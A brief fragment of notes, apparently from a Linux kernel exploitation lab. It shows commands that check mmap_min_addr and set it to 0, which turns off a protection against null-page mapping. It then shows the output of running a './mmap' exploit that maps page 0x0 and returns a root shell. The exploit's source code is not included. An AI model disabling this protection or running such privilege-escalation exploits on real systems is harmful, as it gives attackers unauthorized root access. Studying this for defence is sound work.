 - Check the mmap_min_addr:
        cat /proc/sys/vm/mmap_min_addr
        zgrep MMAP_MIN /proc/config.gz
        /sbin/sysctl vm.mmap_min_addr

- Changing the mmap_min_addr value:
        /sbin/sysctl vm.mmap_min_addr=0
        
- Test the exploit:
$ ./mmap 
Page 0x0 mmaped:0xbfde0cd8[(nil)]
Send the command...
[+] enjoy the shell
sh-4.3# whoami
root
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.3#
